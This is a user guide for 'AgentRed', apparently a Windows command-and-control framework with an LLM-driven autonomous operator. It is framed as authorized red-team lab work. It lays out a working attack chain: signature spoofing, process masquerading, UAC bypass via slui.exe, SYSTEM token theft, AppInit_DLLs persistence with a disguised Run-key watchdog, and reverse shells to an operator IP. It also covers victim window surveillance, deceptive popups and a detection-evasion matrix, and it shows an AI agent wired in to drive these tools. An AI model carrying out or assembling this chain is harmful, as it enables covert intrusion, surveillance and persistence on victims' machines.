

# AgentRed: Operator & Autonomous Agent User Guide

> **Practical Guide**: Step-by-step instructions for operating the C2 infrastructure using both the interactive terminal client ([`client.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/client.py)) and the autonomous AI operator ([`agent_tui.py`](file:///Users/matanmishali/AntiGravity/AgentRed/agent/agent_tui.py) / [`agent.py`](file:///Users/matanmishali/AntiGravity/AgentRed/agent/agent.py)).

---

## Table of Contents
1. [Prerequisites & Environment Setup](#1-prerequisites--environment-setup)
2. [Operating with the Interactive Client (`client.py`)](#2-operating-with-the-interactive-client-clientpy)
   - 2.1 [Connecting to the C2 Server](#21-connecting-to-the-c2-server)
   - 2.2 [Activity Monitoring Commands](#22-activity-monitoring-commands)
   - 2.3 [Registry Inspection & Manipulation](#23-registry-inspection--manipulation)
   - 2.4 [Network Pivot Sessions (SSH & RDP)](#24-network-pivot-sessions-ssh--rdp)
   - 2.5 [Victim Notifications & UI Messaging](#25-victim-notifications--ui-messaging)
   - 2.6 [Interactive Reverse Shell Workflow](#26-interactive-reverse-shell-workflow)
3. [Operating with the Autonomous AI Agent (`agent_tui.py`)](#3-operating-with-the-autonomous-ai-agent-agent_tuipy)
   - 3.1 [Agent Modes & LLM Providers](#31-agent-modes--llm-providers)
   - 3.2 [Textual TUI Controls & Interface Elements](#32-textual-tui-controls--interface-elements)
   - 3.3 [The Human-in-the-Loop Approval Workflow](#33-the-human-in-the-loop-approval-workflow)
   - 3.4 [Example Natural Language Operations](#34-example-natural-language-operations)
   - 3.5 [Headless REPL Mode (`agent.py`)](#35-headless-repl-mode-agentpy)
4. [End-to-End Adversary Simulation Runbook](#4-end-to-end-adversary-simulation-runbook)
   - 4.1 [Phase 1: Binary Staging & Authenticode Spoofing](#41-phase-1-binary-staging--authenticode-spoofing)
   - 4.2 [Phase 2: Loader Execution, PEB Masquerading & PrivEsc](#42-phase-2-loader-execution-peb-masquerading--privesc)
   - 4.3 [Phase 3: Persistence Injection & Watchdog Arming](#43-phase-3-persistence-injection--watchdog-arming)
   - 4.4 [Phase 4: Autonomous C2 & Live Shell Access](#44-phase-4-autonomous-c2--live-shell-access)
   - 4.5 [Phase 5: Authorized Teardown & Remediation](#45-phase-5-authorized-teardown--remediation)
5. [Operational OPSEC & Noise Profile Matrix](#5-operational-opsec--noise-profile-matrix)
6. [Offline Lab Simulation (Without Windows VM)](#6-offline-lab-simulation-without-windows-vm)
7. [Troubleshooting Common Issues](#7-troubleshooting-common-issues)

---

## 1. Prerequisites & Environment Setup

Ensure Python 3.10+ is installed. Set up the virtual environment and dependencies:

```bash
# 1. C2 Server & Client Dependencies
cd /Users/matanmishali/AntiGravity/AgentRed/c2_server
python3 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt

# 2. Autonomous Agent Dependencies
cd ../agent
pip install textual requests
```

---

## 2. Operating with the Interactive Client (`client.py`)

The interactive client [`c2_server/client.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/client.py) connects to [`server.py`](file:///Users/matanmishali/AntiGravity/AgentRed/c2_server/server.py) and presents an interactive `c2>` prompt.

### 2.1 Connecting to the C2 Server

Start the client with your target server host, port, and authentication token:

```bash
# Connect to default local server (127.0.0.1:4444, token: changeme)
python3 client.py

# Connect to a remote lab server with a custom token
python3 client.py --host 192.168.1.10 --port 4444 --token mysecrettoken
```

Once connected, you will enter the interactive prompt:
```
[+] Connected to C2 server at 192.168.1.10:4444
[+] Authenticated successfully as operator.
c2> 
```
Type `help` at any time to list all available commands.

---

### 2.2 Activity Monitoring Commands

Prefix commands with `act` to inspect processes, hardware utilization, and open network sockets:

```
# List all active processes (includes PID, PPID, executable path, command line, memory, CPU%)
c2> act processes

# Get real-time system stats (CPU load %, RAM usage, Disk C: capacity)
c2> act system_stats

# View top 5 processes consuming memory
c2> act top_mem 5

# View top 5 processes consuming CPU
c2> act top_cpu 5

# List all open TCP listening sockets and active connections with associated PIDs
c2> act network

# Start background resource monitoring snapshots every 5000 ms
c2> act monitor start 5000

# Stop background monitoring and view collected performance snapshots
c2> act monitor stop
c2> act monitor snapshots
```

---

### 2.3 Registry Inspection & Manipulation

Prefix commands with `reg` to query and edit the Windows registry:

```
# List subkeys under a path
c2> reg list_keys HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion"

# List values and data types in a key
c2> reg list_values HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion"

# Read a specific value
c2> reg read HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion" ProductName

# Write a registry value (Types: SZ, EXPAND_SZ, DWORD, QWORD, BINARY)
c2> reg write HKCU "Software\Classes\exefile\shell\open\command" "" SZ "C:\Users\Victim\main.exe"

# Delete a specific value
c2> reg delete HKCU "Software\Classes\exefile\shell\open\command" ""

# Create and delete keys
c2> reg create_key HKCU "Software\TestKey"
c2> reg delete_key HKCU "Software\TestKey"
```

---

### 2.4 Network Pivot Sessions (SSH & RDP)

#### SSH Pivoting
Connect to internal network endpoints from the victim's host:
```
# Establish SSH session from victim to target machine
c2> ssh connect 10.0.0.15 22 admin Password123!

# Execute command on remote SSH session (session_id = 0)
c2> ssh exec 0 whoami /all
c2> ssh exec 0 ipconfig

# List and terminate SSH sessions
c2> ssh list
c2> ssh disconnect 0
```

#### RDP Probing & Spawning
```
# Test if port 3389 (RDP) is open on an internal target
c2> rdp probe 10.0.0.20

# Launch mstsc.exe on the victim host
c2> rdp open 10.0.0.20 admin

# View and terminate active RDP sessions
c2> rdp list
c2> rdp close 0
```

---

### 2.5 Victim Notifications & UI Messaging

#### Live Window & Notification Surveillance
Enable Windows event hooking to receive real-time alerts whenever the victim changes active windows:
```
c2> notify start
c2> notify status
```
*Incoming events appear automatically as colored banners in your console:*
```
╔══════════════════════════════════════════════════════════════════╗
║  ⚠  EVENT [window_focus]                                         ║
║  Process: chrome.exe                                             ║
║  Title:   Internal Password Manager - Login                      ║
╚══════════════════════════════════════════════════════════════════╝
```
To stop receiving streaming events:
```
c2> notify stop
```

#### Pushing Alerts to the Victim's Desktop
```
# Display a modal message box (victim must click OK)
c2> notify popup "System Maintenance" "A critical security update will be applied in 5 minutes." warning
c2> notify popup "Notice" "Your password expires today." info

# Display a non-intrusive system tray balloon (duration in ms)
c2> notify balloon "Backup Complete" "Cloud backup finished successfully." 6000
```

---

### 2.6 Interactive Reverse Shell Workflow

The reverse shell operates **out-of-band** directly on port `4445`, giving you a live interactive `cmd.exe` or `powershell.exe` session without JSON encapsulation lag.

```
Step 1: In the c2> prompt, launch the shell pointing to your operator IP:
c2> shell 192.168.1.5 4445 cmd.exe

Step 2: client.py automatically opens a TCP listener on 192.168.1.5:4445
Step 3: The C2 server commands the victim agent to connect out
Step 4: The shell connects, and your console transitions to an interactive Windows terminal:

Microsoft Windows [Version 10.0.19045.3803]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Victim> whoami
victim-pc\labuser

C:\Users\Victim> 
```

#### Key Shell Controls:
- **`Ctrl+]`** : **Detach from the shell**. The shell process remains active on the victim, and your terminal returns to the `c2>` prompt.
- **`shell status`** : Checks whether the detached reverse shell is still alive.
- **`shell stop`** : Gracefully closes the active reverse shell connection.

#### Advanced Shell OPSEC & Terminal Nuances:
- **Sub-Prompt & Interactive Binaries**: Avoid invoking blocking utilities (e.g., `diskpart`, `powershell` interactive child-consoles, or `ssh`) that require standard Win32 console handles directly inside the raw stream, as they may deadlock line buffering. Always pass single commands directly (e.g., `powershell.exe -NonInteractive -Command "..."`).
- **NAT & Port-Forwarding Requirements**: The victim implant connects **outbound** to port `4445`. When testing across subnets or cloud VPCs, ensure your operator host has TCP 4445 accessible and port-forwarded from any external IP.
- **Encoding & Output Cleansing**: The raw shell passes UTF-8 and code page 437/1252 strings directly. If output appears garbled after running scripts, issue `chcp 65001` to switch the target Windows command session to UTF-8.

---

## 3. Operating with the Autonomous AI Agent (`agent_tui.py`)

The AI operator interface wraps the C2 client into a conversational, autonomous agent. Rather than remembering individual CLI flags, operators interact in natural language while the LLM coordinates tools.

---

### 3.1 Agent Modes & LLM Providers

Navigate to the `agent` folder and run [`agent_tui.py`](file:///Users/matanmishali/AntiGravity/AgentRed/agent/agent_tui.py):

#### Option 1: Live Cloud LLM via OpenRouter (Claude 3.5 Sonnet / DeepSeek)
```bash
cd /Users/matanmishali/AntiGravity/AgentRed/agent
export OPENROUTER_API_KEY="sk-or-v1-..."
python3 agent_tui.py --host 127.0.0.1 --port 4444 --token changeme \
    --provider openrouter --model anthropic/claude-3.5-sonnet
```

#### Option 2: Completely Local Model via Ollama (No internet required)
```bash
# In terminal 1: run Ollama
ollama serve
ollama pull llama3.1:8b

# In terminal 2: run AgentRed TUI connected to Ollama
cd /Users/matanmishali/AntiGravity/AgentRed/agent
python3 agent_tui.py --host 127.0.0.1 --port 4444 --token changeme \
    --provider local --model llama3.1:8b
```

#### Option 3: Dry-Run Offline Demonstration (No LLM API or model needed)
```bash
python3 agent_tui.py --dry-run
```

---

### 3.2 Textual TUI Controls & Interface Elements

The TUI is styled after modern terminal coding assistants:

- **Input Prompt (`> `)**: Type instructions in plain English and press **Enter** to submit.
- **Busy Indicator**: A braille spinner (`⠋⠙⠹…`) activates during processing, detailing the phase (`thinking…`, `running act:top_cpu on target…`, `awaiting your approval…`).
- **Slash Commands**:
  - `/help`: Display UI commands and keybindings.
  - `/tools`: List all 38 available C2 tools and descriptions.
  - `/events`: View the real-time buffer of victim foreground window events.
  - `/clear`: Clear the conversation history transcript.
  - `/quit` (or **Ctrl+Q**): Safely exit the application.

---

### 3.3 The Human-in-the-Loop Approval Workflow

To ensure safety and prevent unauthorized or destructive operations during testing and operation:
1. **Read-Only Tools** (`sysinfo`, `processes`, `top_cpu`, `reg_read`, `network`):
   Execute automatically without interruption.
2. **Mutating Tools** (`reg_write`, `reg_delete_val`, `shell_open`, `notify_popup`):
   The LLM proposes the action, but execution halts immediately. An interactive modal opens:

```
┌─────────────────────────────────────────────────────────────────────────────┐
│ ⚠️ TARGET MUTATION REQUESTED                                                │
│                                                                             │
│ Tool: reg_write                                                             │
│ Hive: HKLM                                                                  │
│ Path: SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows                  │
│ Key:  AppInit_DLLs                                                          │
│ Value: C:\Users\Victim\AppInit_DLLs.dll                                      │
│                                                                             │
│ Reason: "Establishing AppInit_DLLs persistence as requested."               │
│                                                                             │
│            [ APPROVE (Enter) ]             [ DENY (Esc) ]                   │
└─────────────────────────────────────────────────────────────────────────────┘
```
- Click **Approve** (or press Enter) to authorize the command on the target.
- Click **Deny** (or press Esc) to cancel the command. The agent receives an authorization denial error and adjusts its plan accordingly.

---

### 3.4 Example Natural Language Operations

You can provide high-level task goals to the agent:

- *"Perform an initial reconnaissance. Report the target OS version, uptime, and whether Windows Defender or third-party AV is running."*
- *"Check if any browser or high-memory processes are active on the victim machine."*
- *"Audit the network connections. Are there any active outbound connections to external IP addresses?"*
- *"Inspect the current Run key in HKCU and verify if our watchdog is present."*
- *"Spawn a reverse shell back to our operator IP 192.168.1.5 on port 4445."*

---

### 3.5 Headless REPL Mode (`agent.py`)

If you are running in a lightweight terminal without Textual support or want to script interactions, use the standard command-line REPL [`agent/agent.py`](file:///Users/matanmishali/AntiGravity/AgentRed/agent/agent.py):

```bash
cd /Users/matanmishali/AntiGravity/AgentRed/agent
python3 agent.py --provider openrouter --model anthropic/claude-3.5-sonnet
```
- Operates identically to the TUI.
- Prompts for confirmation via standard terminal `[y/N]` prompts when mutations are requested.

---

## 4. End-to-End Adversary Simulation Runbook

This runbook guides red-team operators through a full 5-phase adversary simulation campaign against an authorized lab Windows target.



---

### 4.1 Phase 1: Binary Staging & Authenticode Spoofing
Before dropping custom binaries, transplant Authenticode digital signatures to test endpoint signature verification heuristics:

```bash
# 1. Inspect PE structure and security directory of a legitimate signed binary (e.g., calc.exe)
python3 file_analyzer.py -s /path/to/calc.exe

# 2. Transplant the valid certificate onto our compiled dropper
python3 cert_spoofer.py --malware ./main.exe --cert /path/to/calc.exe --no-upload

# 3. Verify that the Security Directory has been adjusted in the target binary
python3 file_analyzer.py -s ./main.exe
```

---

### 4.2 Phase 2: Loader Execution, PEB Masquerading & PrivEsc
Deliver `main.exe` (compiled from [`red.cpp`](file:///Users/matanmishali/AntiGravity/AgentRed/red.cpp)) to the target Windows host:

1. **In-Memory PEB Masquerading**:
   - `main.exe` enumerates running processes and identifies a signed, legitimate process (e.g., `spoolsv.exe`, `explorer.exe`) verified by `WinVerifyTrust`.
   - It queries target memory via `NtQueryInformationProcess` and overwrites its own `RTL_USER_PROCESS_PARAMETERS` (`CommandLine`, `ImagePathName`, `WindowTitle`) so live process inspection tools (Process Explorer, Task Manager) display false process metadata.
2. **Zero-Prompt UAC Auto-Elevation**:
   - Creates a user-writable hijack registry entry at `HKCU\Software\Classes\exefile\shell\open\command`.
   - Executes auto-elevated `C:\Windows\System32\slui.exe` using `ShellExecuteW("runas", ...)`.
   - `slui.exe` elevates without prompting the user and runs our payload in a High-Integrity context.
3. **Token Stealing to SYSTEM**:
   - Acquires `SeDebugPrivilege`.
   - Opens `winlogon.exe` (running as `NT AUTHORITY\SYSTEM`), duplicates its primary token via `DuplicateTokenEx`, and executes the persistence registration commands under SYSTEM integrity.

---

### 4.3 Phase 3: Persistence Injection & Watchdog Arming
Stage `AppInit_DLLs.dll` and `SAFE.exe` in `%USERPROFILE%`:

1. **AppInit_DLLs Registration**:
   The loader registers the DLL path in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows`:
   - `AppInit_DLLs` = `C:%HOMEPATH%\AppInit_DLLs.dll`
   - `LoadAppInit_DLLs` = `1`
   - `RequireSignedAppInit_DLLs` = `0`
   Every GUI desktop application loading `user32.dll` automatically injects `AppInit_DLLs.dll`.
2. **Watchdog Arming & DACL Locking**:
   - `SAFE.exe` is added to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (`"Windows Security Health"`).
   - Strict Discretionary Access Control Lists (DACLs) are applied to both `AppInit_DLLs.dll` and `SAFE.exe`, denying `DELETE` permissions to `Everyone`.
   - On every login, `SAFE.exe` silently checks and restores any purged registry keys or altered file permissions.

---

### 4.4 Phase 4: Autonomous C2 & Live Shell Access
Once the implant is resident in memory:

1. **Launch the C2 Relay Server**:
   ```bash
   python3 c2_server/server.py --host 0.0.0.0 --port 4444 --token secret123
   ```
2. **Engage with the Autonomous AI Operator**:
   ```bash
   export OPENROUTER_API_KEY="sk-or-v1-..."
   python3 agent/agent_tui.py --host 127.0.0.1 --port 4444 --token secret123 \
       --provider openrouter --model anthropic/claude-3.5-sonnet
   ```
3. **Live Window Surveillance & Out-of-Band Interactive Shell**:
   - Enable window monitoring:
     ```
     c2> notify start
     ```
   - Spawn direct interactive reverse shell:
     ```
     c2> shell 192.168.1.5 4445 cmd.exe
     ```
   - Use `Ctrl+]` to detach from the shell at any time while preserving the session.

---

### 4.5 Phase 5: Authorized Teardown & Remediation
To return the lab machine to a baseline clean state following the exercise:

```cmd
# Run SAFE.exe with the /remove switch as Administrator:
C:\Users\Victim\SAFE.exe /remove
```
What `/remove` automatically executes:
- Unlocks the restrictive file DACLs on `AppInit_DLLs.dll` and `SAFE.exe`.
- Resets `AppInit_DLLs` and sets `LoadAppInit_DLLs` to `0` in `HKLM`.
- Removes the `"Windows Security Health"` entry from `HKCU\Run`.
- Cleans up residual file association keys in `HKCU\Software\Classes\exefile`.
- Terminates watchdog mutexes (`Global\__C2SafeMtx__`).

---

## 5. Operational OPSEC & Noise Profile Matrix

Every offensive operation generates varying levels of endpoint telemetry. Use this matrix to assess detection risks during adversary emulation:

| Operation / Capability | Target Mechanism | Disk Artifacts | Process Lineage Impact | Primary Telemetry Generated | OPSEC Rating |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **System Profiling** (`sysinfo`, `processes`) | `Toolhelp32` API calls | None | Internal to implant process | No log entries generated | 🟢 **Low** |
| **Active Socket Audit** (`network`) | `GetExtendedTcpTable` | None | Internal to implant process | No log entries generated | 🟢 **Low** |
| **Window Event Hooking** (`notify start`) | `SetWinEventHook` | None | Internal GUI hook | User-mode events only | 🟢 **Low** |
| **PEB Masquerading** (`process_steal.h`) | Runtime memory rewrite | None | Spoofs `ProcessBasicInformation` | Volatility VAD discrepancy | 🟡 **Medium** |
| **Registry Read** (`reg read`) | `RegOpenKeyEx` | None | Read operations | Sysmon Event ID 12/13 (if auditing reads) | 🟢 **Low** |
| **Registry Persistence** (`AppInit_DLLs`) | `HKLM\...\Windows` write | DLL on disk | Reg key modification | Sysmon Event ID 13 | 🟠 **High** |
| **UAC Auto-Elevate** (`red.cpp`) | `slui.exe` association | Temp reg key | `slui.exe` spawns unexpected child | Sysmon Event ID 1 & 13 | 🟠 **High** |
| **Token Stealing** (`privesc.h`) | `winlogon.exe` open handle | None | High-priv process access | Sysmon Event ID 10 | 🔴 **High** |
| **Defender Tampering** (`Add-MpPreference`) | PowerShell exclusion command | PowerShell log | `powershell.exe` execution | PowerShell EID 4104, Defender EID 5007 | 🚨 **Extreme** |
| **Out-of-Band Reverse Shell** (`shell`) | Raw TCP port 4445 | Temp pipes | `cmd.exe` child process | Sysmon Event ID 1 & Event ID 3 | 🟠 **High** |

---

## 6. Offline Lab Simulation (Without Windows VM)

To test the entire stack on macOS or Linux without needing a physical Windows VM, use the included mock harness:

```bash
# Terminal 1: Start the mock C2 server with simulated Windows target
cd /Users/matanmishali/AntiGravity/AgentRed/agent
python3 tests/mock_c2_server.py

# Terminal 2: Connect with the client
cd /Users/matanmishali/AntiGravity/AgentRed/c2_server
python3 client.py --host 127.0.0.1 --port 4444 --token labtoken

# Terminal 3: Or connect with the autonomous agent
cd /Users/matanmishali/AntiGravity/AgentRed/agent
python3 agent_tui.py --host 127.0.0.1 --port 4444 --token labtoken --dry-run
```

---

## 7. Troubleshooting Common Issues

| Issue | Cause | Solution |
| :--- | :--- | :--- |
| **"Authentication failed"** | Token mismatch between client/agent and server. | Ensure `--token` matches the server's `C2_AUTH_TOKEN`. (Default server token is `changeme`; mock server default is `labtoken`). |
| **"Address already in use"** | Port 4444 or 4445 is already bound by an existing process. | Check active ports with `lsof -i :4444` and terminate the conflicting process. |
| **"No agent connected"** | `client.py` is connected to the server, but the DLL has not run on the victim. | Verify `AppInit_DLLs.dll` is loaded into a process on the target machine. |
| **Reverse shell disconnects immediately** | Firewall on operator machine blocking inbound TCP port 4445. | Verify local firewall permits inbound connections on port 4445. |

